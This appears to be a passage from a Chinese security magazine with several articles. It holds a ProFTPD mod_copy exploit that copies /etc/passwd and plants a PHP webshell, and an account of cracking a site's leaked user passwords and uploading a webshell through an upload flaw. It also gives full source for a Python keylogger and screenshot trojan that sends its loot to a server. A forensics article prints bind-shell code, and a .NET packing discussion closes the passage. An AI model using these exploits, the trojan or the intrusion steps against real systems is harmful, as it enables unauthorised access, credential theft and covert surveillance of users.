| authenticated 被覆盖前 | 0x0018FB4C | 0x00 | 0x00 | 0x00 | 0x01 |
| authenticated 被覆盖后 | 0x0018FB4C | 0x00 | 0x00 | 0x00 | 0x00(null) |

通过上面的解释，大家对栈溢出应该有了一个初步的认识。这里介绍的栈溢出漏洞看起来很简单，但实际上栈溢出是最常见的内存错误之一，也是攻击者入侵系统时所用到的最强大、最经典的一类漏洞利用方式。但还要注意以下情况：

- 1）在观察内存的时候应当注意内存数据与数值数据的区别，电脑在存储数据的时候并不是按照我们平时记忆的方式存储。在调试环境中，内存由低到高分布，但在数值应用的时候却是由高位字节向低位字节进行解释。
- 2）在输入密码时，如果你输入的字符串小于原来定义的密码，是不能冲破验证程序的。
- 3）这个实验是在 Win7 64 位环境下完成的，在其他环境下栈溢出的原理相同，但内存地址不同。
- 4）在 Windows XP 以上系统中，系统增强了保护功能，有部分复杂的栈溢出不能在不做修改的情况下完成。

## Proftpd mod_copy 模块命令未授权调用

文/图 [Baidu-Xteam] S.T.

该漏洞原标题为 Unauthenticated copying of files via SITE CPFR/CPTO allowed by mod_copy，意为 mod_copy 模块允许通过 SITE CPFR/CPTO 命令来实现未授权的文件拷贝，编号 CVE-2015-3306。

#### 漏洞分析

本次漏洞发生在 mod_copy 模块，该模块中，对于执行 CPFR 和 CPTO 命令的函数并未进行身份认证。先看下正常的身份认证代码，在 `\contrib\mod_copy.c` 第 477 行。

```c
MODRET copy_copy(cmd_rec *cmd) {
    if (cmd->argc < 2) {
        return PR_DECLINED(cmd);
    }

    if (strncasecmp(cmd->argv[1], "COPY", 5) == 0) {
        char *cmd_name, *from, *to;
        unsigned char *authenticated;

        if (cmd->argc != 4) {
            return PR_DECLINED(cmd);
        }

        authenticated = get_param_ptr(cmd->server->conf, "authenticated", FALSE);
        if (authenticated == NULL ||
            *authenticated == FALSE) {
            pr_response_add_err(R_530, _("Please login with USER and PASS"));
            return PR_ERROR(cmd);
        }
    }
```

从代码段中不难看出，authenticated 代表了身份认证的结果，如果该值不为真，则会弹出提示 “Please login...”。接下来再看此次出现问题的函数，代码在 `\contrib\mod_copy.c` 第 594 行。

```c
MODRET copy_cpto(cmd_rec *cmd) {
register unsigned int i;
char *from, *to = "";
if (cmd->argc < 3 ||
    strncasecmp(cmd->argv[1], "CPTO", 5) != 0) {
  return PR_DECLINED(cmd);
}
CHECK_CMD_MIN_ARGS(cmd, 3);
from = pr_table_get(session.notes, "mod_copy.cpfr-path", NULL);
if (from == NULL) {
  pr_response_add_err(R_503, _("Bad sequence of commands"));
  return PR_ERROR(cmd);
}
/* Construct the target file name by concatenating all the parameters after
 * the "SITE CPTO", separating them with spaces.
 */
for (i = 2; i <= cmd->argc-1; i++) {
  to = pstrcat(cmd->tmp_pool, to, *to ? " " : "",
      pr_fs_decode_path(cmd->tmp_pool, cmd->argv[i]), NULL);
}

to = dir_canonical_vpath(cmd->tmp_pool, to);
if (copy_paths(cmd->tmp_pool, from, to) < 0) {
  int xerrno = errno;
  pr_response_add_err(R_550, "%s: %s", cmd->argv[1], strerror(xerrno));
  errno = xerrno;
  return PR_ERROR(cmd);
}
pr_response_add(R_250, "%s", _("Copy successful"));
return PR_HANDLED(cmd);
}
```

copy_cpto 函数即为执行 SITE CPTO 时调用的函数，在该函数中并未存在任何身份认证代码，即在未进行身份认证（也就是未登录）的情况下，可以使用该函数。而 SITE CPFR 命令同理，均未进行身份认证。两个命令配合起来，即可实现文件的拷贝和移动。

#### 漏洞利用

nc 连接目标 IP 端口，如 `nc xx.xx.xx.xx 21`，即可输入命令进行操作。首先演示移动文件，执行如下命令即可将 passwd 文件移动到 tmp 目录。

```bash
site cpfr /etc/passwd
site cpto /tmp/Stefanie
```

当服务器开放了 Web 服务，并且猜到 Web 目录的情况下，可以通过如下方式拷贝 webshell 到 Web 目录。

```bash
site cpfr /etc/passwd
site cpto <?php phpinfo(); ?>
site cpfr /proc/self/fd/3
site cpto /var/www/test.php
```

“site cpto <?php phpinfo(); ?>”用于故意创建一个错误的使用方式，此操作会将 PHP 代码写入 proftpd 的错误日志，后面则是将该文件复制到 Web 目录。此时 PHP 文件的内容如下：

```text
2015-04-04 02:01:13,159 slon-P5Q proftpd[16255] slon-P5Q
(slon-P5Q.lan[192.168.3.193]): error rewinding scoreboard: Invalid argument
2015-04-04 02:01:13,159 slon-P5Q proftpd[16255] slon-P5Q
(slon-P5Q.lan[192.168.3.193]): FTP session opened.
2015-04-04 02:01:27,943 slon-P5Q proftpd[16255] slon-P5Q
(slon-P5Q.lan[192.168.3.193]): error opening destination file '/<?php phpinfo(); ?>' for copying: Permission denied
```

#### 影响范围

2011-11-09 的 proftpd-1.3.4 到 2014-05-15 的 proftpd-1.3.5。CentOS 编译安装需使用配置 `./configure --with-modules=mod_copy`，否则会不存在该模块，测试时修改后使用 `yum install` 也并不存在该模块；Ubuntu 默认 `apt-get install` 即存在该漏洞。

## 从敏感文件泄露到获取 webshell

文/图 Simeon

本次渗透源自于一次偶然的扫描，通过扫描获取某站点早期整个站点的打包压缩文件 wwwroot.rar。通过分析源代码后，对管理员和版主密码进行破解，通过登录系统、分析系统漏洞，最后成功获取 webshell。

#### 分析源代码

首先对源代码进行分析，发现其早期系统采用动感 BBS 系统，在 wwwroot.rar 中发现有早期 BBS 的数据库文件，如图 1 所示。数据库使用 Access，通过数据库文件可以分析系统是使用 DVBBS 7.X 版本。


图 1 获取早期 Access 数据库

#### 尝试破解用户密码

打开 dvbbs7.0.mdb 数据库，对 dv_admin 和 dv_user 表进行分析，如图 2 所示，重点对管理员和版主密码进行破解，在该表中共有 4 万多条数据。


图 2 破解用户密码

#### 登录系统测试

通过破解选定用户的密码，将该密码在该系统进行登录（如图 3 所示）。管理员密码已经更改，使用版主的密码成功登录系统。在进行实际测试过程中，由于打包文件时间较长，绝大部分系统管理员的密码都改变了，但管理员的基本信息以及旧系统获取的信息可以在社工库中进行查询，对精准社工渗透特别有用。


图 3 登录系统测试

#### 寻找漏洞

登录系统后发现系统采用 Dvbbs 8.2 版本，通过互联网获悉该版本存在 IIS 解析文件漏洞，可以在个人空间通过文件管理上传 `1.asp;.1.gif` 类似图片文件获得 Webshell，但前提是系统允许个人用户开启空间，如图 4 所示，开启该用户的空间。


图 4 开启个人空间

### 上传 webshell 测试

在个人空间中单击文件管理，在风格模板-文件管理中上传 **anyon.asp;1.gif** 文件，如图 5 所示。系统提示上传成功，单击该图片文件即可获取 webshell 地址，如图 6 所示，插入过一句话木马的图片文件能够成功运行。


图 5 上传 webshell 文件


图 6 webshell 文件地址

### 成功获取 webshell

在中国菜刀中新建一个 shell 记录，如图 7 所示，成功获取该网站的 webshell。


图 7 获取 webshell

#### 总结与思考

本文的渗透思路很简单，通过分析源代码和数据库，如果能够得到管理员权限，则通过后台进入系统，寻找上传等地址来获取 webshell；如果是普通用户，则分析该系统是否存在漏洞，然后进行利用。对该系统进行安全加固方面的一些建议：

- 1. 在对网站进行更新维护等操作时，打包文件尽量使用密码进行加密，这样即使被下载，也因为有密码的保护而相对安全一些。尽量在维护过程中不保存源代码压缩包等敏感文件。
- 2. 对用户上传图片的目录严格设置权限，设置为只读。
- 3. 更新系统到最新版本。

（完）

### Python 编写木马程序

文/图 light（NEURON）

本文属于《小学生科普系列》番外篇，《小科》系列面向小学生，纯科普，大牛莫喷~ 文章内容仅供学习研究，切勿用于非法用途！这次我们使用 Python 编写一个具有键盘记录、截屏以及通信功能的简易木马，依然选用 Sublime Text 2 + JEDI（Python 自动补全插件）来写代码，安装配置 JEDI 插件可以参照 http://drops.wooyun.org/tips/4413。

首先准备好我们需要的依赖库，pythonhook 和 pythoncom。下载安装 pythonhook：http://sourceforge.net/projects/pyhook/；下载安装 pythoncom 模块：http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/pywin32-219.win32-py2.7.exe/download。

如果觉得麻烦，你可以直接使用集成了所有我们所需要的 Python 库的商业版 ActivePython（我们可以用它的免费版）：http://www.activestate.com/activepython。

### 记录你所敲打的一切：编写一个 keylogger

说到 Keylogger，大家的思维可能早已飞向带有 WiFi 功能的 mini 小硬件去了。抛开高科技，我们暂且回归本质，探探简易键盘记录器的原理与实现。

Python keylogger 键盘记录功能的实现主要利用了 pythoncom 及 pyHook，然后就是对 Windows API 的各种调用。Python 之所以用起来方便快捷，主要归功于这些庞大的支持库，正所谓“人生苦短，快用 Python”。关键代码如下所示：

```python
##### -*- coding: utf-8 -*-
from ctypes import *
import pythoncom
import pyHook
import win32clipboard

user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None

#
def get_current_process():
    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()
    # 获取进程 ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
    # 将进程 ID 存入变量中
    process_id = "%d" % pid.value

##### 申请内存
executable = create_string_buffer("\x00"*512)
h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512)
##### 读取窗口标题
windows_title = create_string_buffer("\x00"*512)
length = user32.GetWindowTextA(hwnd, byref(windows_title), 512)
##### 打印
print
print "[ PID:%s-%s-%s]" % (process_id, executable.value, windows_title.value)
print
# 关闭 handles
kernel32.CloseHandle(hwnd)
kernel32.CloseHandle(h_process)

##### 定义击键监听事件函数
def KeyStroke(event):
    global current_window
    # 检测目标窗口是否转移（换了其他窗口就监听新的窗口）
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()
    # 检测击键是否常规按键（非组合键等）
    if event.Ascii > 32 and event.Ascii < 127:
        print chr(event.Ascii),
    else:
        # 如果发现 Ctrl+V（粘贴）事件，就把剪贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print "[PASTE]-%s" % (pasted_value),
        else:
            print "[%s]" % event.Key,
    # 循环监听下一个击键事件
    return True

# 创建并注册 hook 管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke
# 注册 hook 并执行
kl.HookKeyboard()
pythoncom.PumpMessages()
```

【知识点】钩子（Hook）：Windows 消息处理机制的一个平台，应用程序可以在上面设置子程以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。

编写代码时一定要注意严格区分大小写，检查无误后启动 keylogger，然后可以尝试打开记事本写点东西，过程中可以看到我们的 keylogger 窗口正在对我们的输入实时记录，如图 1 所示。


图 1

切换窗口时会自动跟踪到新窗口，light 教授趁机骚扰一下疯狗，可以看到我们的 keylogger 已经跟踪到 QQ 聊天窗口，并忠实地记录下输入的一切，如图 2 所示。


图 2

### 看看你在干什么：编写一个 screenshotter

截屏实现起来更简单，直接调用几个 GUI 相关的 API 即可，我们直接看代码。

```python
##### -*- coding: utf-8 -*-
import win32gui
import win32ui
import win32con
import win32api

##### 获取桌面
hdesktop = win32gui.GetDesktopWindow()
##### 分辨率适应
width = win32api.GetSystemMetrics(win32con.SM_CXVIRTUALSCREEN)
height = win32api.GetSystemMetrics(win32con.SM_CYVIRTUALSCREEN)

left = win32api.GetSystemMetrics(win32con.SM_XVIRTUALSCREEN)
top = win32api.GetSystemMetrics(win32con.SM_YVIRTUALSCREEN)
##### 创建设备描述表
desktop_dc = win32gui.GetWindowDC(hdesktop)
img_dc = win32ui.CreateDCFromHandle(desktop_dc)
##### 创建一个内存设备描述表
mem_dc = img_dc.CreateCompatibleDC()
##### 创建位图对象
screenshot = win32ui.CreateBitmap()
screenshot.CreateCompatibleBitmap(img_dc, width, height)
mem_dc.SelectObject(screenshot)
##### 截图至内存设备描述表
mem_dc.BitBlt((0, 0), (width, height), img_dc, (left, top), win32con.SRCCOPY)
##### 将截图保存到文件中
screenshot.SaveBitmapFile(mem_dc, 'c:\\WINDOWS\\Temp\\screenshot.bmp')
##### 内存释放
mem_dc.DeleteDC()
win32gui.DeleteObject(screenshot.GetHandle())
```

运行之后看看效果如何，如图 3 所示。


图 3

#### 综合运用：完成一个简易木马

无论是 keylogger 记录下的内容，还是 screenshotter 截获的图片，只存在客户端是没有太大意义的，我们需要构建一个简单的 server 和 client 端来进行通信，传输记录下的内容到我们的服务器上。

- 1）编写一个简单的 TCP client

```python
##### -*- coding: utf-8 -*-
import socket
##### 目标地址 IP/URL 及端口
target_host = "127.0.0.1"
target_port = 9999
# 创建一个 socket 对象
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
##### 连接主机
client.connect((target_host, target_port))
##### 发送数据
client.send("GET / HTTP/1.1\r\nHOST:127.0.0.1\r\n\r\n")
##### 接收响应
response = client.recv(4096)
print response
```

- 2）编写一个简单的 TCP server

```python
##### -*- coding: utf-8 -*-
import socket
import threading

##### 监听的 IP 及端口
bind_ip = "127.0.0.1"
bind_port = 9999
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((bind_ip, bind_port))
server.listen(5)
print "[*] Listening on %s:%d" % (bind_ip, bind_port)

def handle_client(client_socket):
    request = client_socket.recv(1024)
    print "[*] Received:%s" % request
    client_socket.send("ok!")
    client_socket.close()

while True:
    client, addr = server.accept()
    print "[*] Accept connection from:%s:%d" % (addr[0], addr[1])
    client_handler = threading.Thread(target=handle_client, args=(client,))
    client_handler.start()
```

开启服务端监听，如图 4 所示。

```bash
C:\Python27>python tcpserver.py
[*] Listening on 127.0.0.1:9999
```

图 4

执行客户端，如图 5 所示。

```bash
C:\Python27>python tcpclient.py
ok!
```

图 5

服务端接收到客户端的请求并做出了响应，如图 6 所示。

```bash
C:\Python27>python tcpserver.py
[*] Listening on 127.0.0.1:9999
[*] Accept connection from:127.0.0.1:4934
[*] Received:GET / HTTP/1.1
HOST:127.0.0.1
```

图 6

最后需要做的就是把上面三个模块结合起来，一个简易的、具有键盘记录、屏幕截图并可以发送内容到我们服务端的木马就完成了。可以使用 py2exe 把脚本生成 exe 可执行文件。当然，你还可以继续发挥，加上远程控制功能。

### 基于 Win64 系统的进程内存取证分析技术

文/图 侃程 成都工业职业技术学院

计算机技术的迅速发展，为违法犯罪分子提供了新的作案平台和犯罪手段，特别是随着加密技术和无痕技术的普及，传统的电子取证手段面临巨大挑战，有些如已被删除、加密或破坏的有价值电子证据，获取起来的难度加大。内存取证技术的发展在一定程度上弥补了传统离线取证技术的不足，通过内存镜像的分析，调阅当前正在内存中运行的进程、所有载入模块和 DLL 库以及运行中的设备驱动程序，发现各种潜在问题，如设备驱动中是否附着恶意驱动设置底层钩子程序、DLL 库是否劫持等。

本文将重点讲述内存中运行的进程取证分析技术，通过分析进程结构体以识别各种可能的恶意行为，分析对象包括进程标准句柄以及引用的动态链接库等，以攻击者的典型攻击手法为例，分析如何从目标主机的异常行为表现中发现问题，并提取有效证据。

#### Windows 系统进程取证基础

在 Windows 系统中，每个进程都用一个 EProcess（Executive Process）结构来表示，它包含进程的可执行文件全路径、启动进程的命令行、当前工作目录、进程堆指针、进程标准句柄以及指向进程相关的其他属性和数据结构的指针。由于数据结构就是字节序列，序列中有特殊的含义和目的，所以需要调查人员对其进行分析。EProcess 结构中最重要的一个成员是指向进程环境块（PEB）的指针。进程环境块中包含大量的信息，对取证比较重要的信息有：

- 1. **BeingDebugged**：进程调试标志，判断当前进程是否处于被调试状态，一些病毒程序、安全软件常使用此标志保护自己被反调试。
- （2）指向 PPEB_LDR_DATA 结构（其中存放的是进程加载器使用的数据）的指针，PPEB_LDR_DATA 结构中包含进程中使用的动态链接库的指针。
- （3）指向可执行文件镜像加载基地址（ImageBaseAddress，在 PEB 偏移 0x008 处）的指针，通过这个指针可以找到内存中可执行文件的起始位置。
- （4）指向包含进程参数结构（ProcessParameters，在 PEB 偏移 0x010 处）的指针，该结构包含进程中加载的动态链接库的路径、可执行文件镜像的原始路径以及创建进程时传递进来的参数等信息。

通过 windbg 调试工具，使用 dt 命令可以查看 ProcessParameters 结构体 _RTL_PROCESS_PARAMETERS 的详细内容：

```text
>>> dt("_RTL_USER_PROCESS_PARAMETERS")
'_RTL_USER_PROCESS_PARAMETERS' (1024 bytes)
.....
0x20  : StandardInput         ['pointer64', ['void']] //进程标准输入句柄
0x28  : StandardOutput        ['pointer64', ['void']] //进程标准输出句柄
0x30  : StandardError         ['pointer64', ['void']] //进程标准错误句柄
0x38  : CurrentDirectory      ['_CURDIR']             //应用程序的当前工作目录
0x50  : DllPath               ['_UNICODE_STRING']
0x60  : ImagePathName         ['_UNICODE_STRING']     //进程 exe 文件在磁盘目录上的全路径名（以 Unicode 形式编码）
0x70  : CommandLine           ['_UNICODE_STRING']
0x80  : Environment           ['pointer64', ['void']]
.....
```

#### 进程句柄取证分析

通过分析进程标准句柄列表，可以确定进程的输入输出值以及报错信息等。这些信息值在分析取证系统是否遭受远程攻击时，具有一定的参考价值。例如，分析系统是否遭受远程后门 shell 攻击等。攻击者惯用的伎俩，即创建一个 shell 后门命令，重定向进程句柄至命名管道或网络套接字，使得攻击者通过 telnet 或 netcat 命令随时与目标机建立连接。相关代码如下所示：

```c
mySockAddr.sin_family = PF_INET;
mySockAddr.sin_port = htons(31337);
mySockAddr.sin_addr.s_addr = htonl(INADDR_ANY);
if (bind(myMainSock, (SOCKADDR*)&mySockAddr, sizeof(mySockAddr)) == SOCKET_ERROR){
    WSACleanup();
    return(-1);
}
while(1) {
    mySock = SOCKET_ERROR;
    while(mySock == SOCKET_ERROR) {
        sleep(1);
        listen(mySock, SOMAXCONN);
```

```c
ulSzSockAddr = sizeof(myCliSockAddr);
mySock = accept(myMainSock, (SOCKADDR *)&myCliSockAddr, (int *)&ulSzSockAddr);
}

memset(&mySi, 0, sizeof(mySi));
memset(&myPi, 0, sizeof(myPi));
mySi.wShowWindow = SW_HIDE;
mySi.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
mySi.hStdError = (VOID *)mySock;
mySi.hStdInput = (VOID *)mySock;
mySi.hStdOutput = (VOID *)mySock;
CreateProcess(0, wcsdup(L"cmd.exe"), 0, 0, 1, 0, 0, 0, &mySi, &myPi);
}
```

上述程序主要功能是以本地为服务端，创建一个套接字，实时监听端口 31337 消息。一旦接到对方的连接请求，会自动调用 accept 函数接收消息，并返回客户端套接字 mySock；然后启用标准信息块 _STANDARD_INFORMATION 中的 STARTF_USESTDHANDLES 变量，重定向 hStdError、hStdInput 和 hStdOutput 至客户端套接字 mySock 上，并创建子进程 cmd.exe，设置 bInheritHandles 变量为 TRUE，使得子进程可继承父类句柄。上述步骤完成后，攻击者通过 cmd.exe 键入的任何命令，都会通过网络传输到受控主机，并自动在受控主机中按照攻击者意愿执行相关命令，如搜索文件并自动将搜索结果以文本方式回传等。

在调查分析受控主机时，在查看当前正在运行的进程列表，发现 cmd.exe 已被启用时，若取证分析员具有一定的敏锐性，可能会进一步分析 cmd.exe 的标准输入句柄，确定进程被启用的目的，如是否存在后门活动等；不然，可能会因此忽视一个重大的发现。具体的分析步骤如下：

- 1. 查看目标主机 cmd.exe 所有进程实例的标准输入输出及错误信息。

```bash
$ python vol.py -f memory.dmp --profile=Win7SP1x64 volshell
Volatility Foundation Volatility Framework 2.4
Current context: process System, pid=4, ppid=0 DTB=0x187000
To get help, type 'hh()'
>>> for proc in win32.tasks.pslist(self.addrspace):
...     if str(proc.ImageFileName) != "cmd.exe":
...         continue
...     if proc.Peb:
...         print proc.UniqueProcessId,\
...             hex(proc.Peb.ProcessParameters.StandardInput),\
...             hex(proc.Peb.ProcessParameters.StandardOutput),\
...             hex(proc.Peb.ProcessParameters.StandardError)
...
572 0x3L 0x7L 0xbL
564 0x3L 0x7L 0xbL
2160 0x68L 0x68L 0x68L
```

从上面给出的信息，可以看出 cmd.exe 有三个实例进程在运行，进程 ID 为 2160 的输入输出和错误句柄消息均相同。初步判断 0x68 可能被重定位到一个命名管道或者网络套接字。

- 2. 进一步定位进程 ID 号为 2160 的进程，以查看句柄值 0x68 详情。

```bash
$ python vol.py -f memory.dmp --profile=Win7SP1x64 handles -p 2160 -t File
Volatility Foundation Volatility Framework 2.4
Offset(V)            Pid      Handle   Type   Details
------------------  -------  -------  -----  -------
0xfffffa80015c4070   2160     0xc      File   \Device\HarddiskVolume1\Users\Elliot\Desktop
0xfffffa8002842130   2160     0x54     File   \Device\Afd\Endpoint
0xfffffa80014f3af0   2160     0x68     File   \Device\Afd\Endpoint
```

由上述内容可知，cmd.exe 访问过文件驱动 Afd，AFD 驱动是 Windows 一个网络驱动部件，与 SOCKET 应用接口对接实现 SOCKET 调用。显然 cmd.exe 是调用了网络套接字，若发现本地是存在网络连接，基本可以确定系统已被远程后门利用。

- 3. 通过 pstree 工具查看进程 2160 对应的父进程 ID 号以及父进程网络连接情况。

```bash
$ python vol.py -f memory.dmp --profile=Win7SP1x64 pstree
Volatility Foundation Volatility Framework 2.4
Name                                 Pid   PPid  Thds  Hnds
-----------------------------------  ----  ----  ----  ----
[snip]
.. 0xfffffa80011105e0:memen.exe      1400  572   1     30
... 0xfffffa8002b42060:cmd.exe       2160  1400  1     25
. 0xfffffa8002827060:cmd.exe         3436  1408  1     25
0xfffffa8002be6b30:moby.exe          3036  3024  15    385

$ python vol.py -f memory.dmp --profile=Win7SP1x64 netscan
Volatility Foundation Volatility Framework 2.4
Proto  Local Address         Foreign Address      State        Pid   Owner
TCPv4  0.0.0.0:31337         0.0.0.0:0            LISTENING    1400  memen.exe
TCPv4  192.168.228.171:31337 <REDACTED>:59574     ESTABLISHED  1400  memen.exe
```

cmd.exe 进程 ID 2160 对应的父进程为 ID 号 1400，进程名 memen.exe。父进程通过端口 31337 与远端地址建立连接。上述例子即通过重定向输入输出句柄，利用子进程 cmd.exe 以执行远程命令，并将执行结果通过继承的父类进程句柄回传给攻击者。

#### DLLs 隐藏与检测技术

动态链接库是 Windows 系统中的一个共享函数库，可被多个程序共同调用，实现代码重用及程序的模块化开发。但随着技术的不断发展，很多攻击者开始盯上了 DLLs，因为它具备运行的天然条件，可以寄宿到目标进程中，并借助目标进程的运行而加载运行。攻击者可以构造恶意的 DLLs 文件，然后通过各种手段实现 DLLs 注入，如利用 CreateRemoteThread 远程建立线程的方式注入 DLL、利用 Hooks 技术注入、利用 ring0 APC 注入 DLL 等。

在 DLLs 注入盛行的时间里，各种安全检测工具开始利用 DLLs 双向链表式存储特点遍历进程的所有动态链接库，以识别恶意伪造的 DLLs。后期又开始使用断链技术，将三个链表指针全部断开，以隐藏 DLLs。前面基础知识小节，简单描述了 PEB 结构体中的 ldr 指针结构体 PPEB_LDR_DATA，它包含进程中使用的动态链接库的指针，基地址位于 TEB 偏移 0x30 处。

```text
PPEB_LDR_DATA 结构体成员信息，通过 dt 命令查看显示如下：

kd> dt _peb_ldr_data
ntdll!_PEB_LDR_DATA
   +0x000 Length                          : Uint4B
   +0x004 Initialized                     : UChar
   +0x008 SsHandle                        : Ptr32 Void
   +0x00c InLoadOrderModuleList           : _LIST_ENTRY
   +0x014 InMemoryOrderModuleList         : _LIST_ENTRY
   +0x01c InInitializationOrderModuleList : _LIST_ENTRY
   +0x024 EntryInProgress                 : Ptr32 Void
```

该结构的后三个成员是指向 LDR_MODULE 链表结构中相应三条双向链表头的指针，分别是按照加载顺序、在内存中地址顺序和初始化顺序排列的模块信息结构的指针。图示结构如图 1 所示。


图 1

由上图可知，通过上述三个指针可以依次遍历到指定进程加载的所有 DLLs。同样为了隐藏某个 DLL 文件，可以断开其中的一个链。为了达到完全隐藏的效果，甚至可采用三个链指针全部断开的方式，代码可参考 http://www.openrce.org/blog/view/844/How_to_hide_dll 给出的具体实现方式。

下面将重点介绍隐藏 DLLs 的检测技术。利用虚拟地址描述符 VAD 遍历所有 DLLs 文件。VAD 是一棵平衡二叉搜索树，用于管理进程的虚拟内存，其中也包含着一个进程的 DLL 模块信息。对于每个进程而言，_EPROCESS.VadRoot 指向 VAD 树的根节点。通过 windbg 的 dt 命令可选择一个进程查看对应的 VAD 结构体：

```text
lkd> dt _MMVAD 0x86b3dc20
nt!_MMVAD
......
+0x00c LeftChild   : 0x874e3ac8 _MMVAD
+0x010 RightChild  : 0x86939dc8 _MMVAD
+0x018 ControlArea : 0x8708dcb8 _CONTROL_AREA
......
```

其中，0x00c、0x010 分别代表该 VAD 节点的左右孩子节点，而 0x018 则代表其控制区。CONTROL_AREA 中 0x000 处的 SEGMENT 包含有该模块的大小、基址等信息。而 FilePointer 域指向的 FILE_OBJECT 对象则含有模块名称等信息，相关信息如下：

```text
lkd> dt _control_area 0x8708dcb8
nt!_CONTROL_AREA
+0x000 Segment : 0xe1379578 _SEGMENT
......
+0x024 FilePointer : 0x8744b1a8 _FILE_OBJECT
......

lkd> dt _FILE_OBJECT 0x8744b1a8
nt!_FILE_OBJECT
......
+0x030 FileName: _UNICODE_STRING "\applications\XXx.dll"
......
```

结合上述分析，利用平衡二叉树的遍历算法以及 DLL 文件的偏移量，可搜索遍历进程加载的所有 DLLs 文件，具体方法可先通过 PsLookupProcessByProcessId 函数定位到 EPROCESS 结构体基地址，然后再偏移 0x11c 找到 VadRoot，再逐个根据地址偏移量定位即可。实现代码就不再给出。除了上述方法外，还可以利用 PE 文件扫描技术，暴力搜索进程内存空间，寻找 “MZ” 签名的所有 PE 文件实例。

#### 小结

本文主要描述基于 PEB 结构体的内存分析取证技术，通过描述进程标准句柄输入输出的重定向及 DLLs 隐藏技术，拟分析如何结合 PEB 结构体的内存存储方式，提取上述两种行为留下的痕迹。

（完）

## .Net 生肉研究报告

文/图 木羊

我们在《论 .Net 熟肉的正确打开方式》已经探讨了 .Net 熟肉，也就是没有经过任何保护，直接就把编译后的 MSIL（.Net 中间语言，也可理解为 .Net Framework 虚拟机的字节码）放出来的 .Net 程序的逆向方法。相信很容易感觉到，在现在 .Net 逆向工具如此成熟的环境下，直接放出 .Net 熟肉无异于大声宣布我准备任人鱼肉。这已经不是一两处关键代码被偷窥的问题，而是相当于整套程序代码拱手送人，重新编译发布也是分分钟的事情。如果有靠写 .Net 编写小玩意卖钱的同学，看到这里相信已经深吸了一口冷气。

不过矛盾矛盾，有矛自然有盾。.Net 的逆向安全虽然不温不火，但整个生态环境实际上已经相当成熟。逆向的工具前面已经说了，保护工具，也即所谓的加壳工具，也已经经过几轮的迭代。保护的思路，概括来看大抵有两种：一种是延续传统 PE 文件的保护方式，业界称为整体保护方案；一种是专门针对 .Net 熟肉一被拖进逆向工具，就把底裤都亮出来的尿性，采取了加入垃圾以及各种打乱的混淆保护的策略。有意思的是，大概连微软都知道 .Net 的统一编译成 MSIL 特性简直是为逆向而生，在 Visual Studio 中也专门提供了名为 dotfuscator 的混淆工具。保护的方法不多就两种，但具体的实现仍然百家争鸣。从本篇开始我们将作一个系列来逐一研究。不过要说明的是，两种保护技术并不相斥，很多保护方案都是融合了两种保护思路，以求互为倚角。

这一篇首先看看整体保护方案。我们知道 .Net 程序虽然需要首先安装 .Net Framework 才能运行，但它也是 exe 结尾，实际上也同样采用和普通 exe 文件相同的 PE 文件结构。当然，会有一些拓展，后面介绍手工脱壳方法的时候再具体介绍。这里只需要知道，.Net 程序也是 PE 结构，也包含各种头各种节，也有 OEP 和 IAT。传统面向 PE 结构的保护壳，保护的也是这些东西，理论上套上就该能用了，也就是在 .Net 的 PE 结构上套一层保护壳，将内部结构加密隐藏就保护起来了，在运行的时候再解密释放出来。不过 .Net 毕竟有一些新的机制，因此还需要进行一些兼容性的调整，不过大致过程和普通保护壳是一样的。

口说无凭，首先看一款老牌的 .Net 加壳工具 .Net Reactor（请注意和逆向工具 .NET Reflector 区分，两个是不同单词），这是款最早出现的专门针对 .Net 的保护壳之一，现在还在更新。早期的 .Net Reactor 主要依靠整体保护的方案来进行保护，可以以此对比观察加壳前后的变化。

先编译一个 .Net 程序，观察其内部结构如图 1 所示。


图 1

这是张很经典的 .Net 程序文件结构图，可以注意到两点：

- 1. 如上所说，它拥有传统 PE 结构的全部信息，也就是完整继承了传统的 PE 结构；
- 2. 它拥有 .Net 特有的数据结构，可以看到有一项名为 .NET Directory 的数据项，这是 .Net 程序的一大特征，下面还有几个 Meta 开头的数据结构，以及一些 Table，这些称为元数据，在后面的文章将详细介绍。

.NET Directory 和元数据是查看某个 EXE 文件是否为有效 .Net 程序的重要判断依据，同时也是判断一个 .Net 程序是否启用整体保护方案的重要依据。请记住这句话。

《论 .Net 熟肉的正确打开方式》介绍了 .Net 逆向神器 .NET Reflector，现在就看看保护后的效果。用 .NET Reflector 打开被保护的程序，提示：is not a .NET module，也就是 .NET Reflector 认为它不是一个有效的 .Net 程序。再来看看 .Net Reactor 保护后的文件结构如图 2 所示。


图 2

现在变成了传统的 PE 结构，所有 .Net 程序特有的信息都被加密保护起来了。同时也由于 .Net 相关的文件结构均已不存在，被保护的程序不再是一个有效的 .Net 程序，也就不能够使用 .NET Reflector 逆向了。因此起到了防止逆向的效果。

到这里为止，对 .Net 程序的整体保护和传统对 PE 文件的加壳保护并没有很大区别，同样是对敏感的数据结构进行加密，保护后原文件相关的二进制信息是无法直接查看的。是不是进行了整体保护，就不再能够逆向 .Net 程序了呢？当然不是，为了对抗传统的加壳技术，以及发展出多种脱壳工具和技术，.Net 的整体保护既然也类似于加壳，当然也就会有对应的脱壳工具和技术。我们知道，传统的加壳软件，会在运行时还原或部分还原数据结构（部分信息可能仍存于加密状态以防止逆向，譬如 IAT 等），以保证程序同义执行，也即保持功能的一致性，能像原来那样运行。.Net 的整体保护也一样，会在运行时还原原来的 .Net 程序。如果能有一款工具抓取此时的内存数据，不就能 DUMP 得原来的 .Net 程序了吗？真的就有这么一款专门针对 .Net Dump 脱壳的工具，而且非常自动化，能完成从 DUMP 到 REBUILD 一条龙工作，更重要的是，操作非常简单。这款有点半仙味道的工具叫做 NETUnpack，如图 3 所示。


图 3

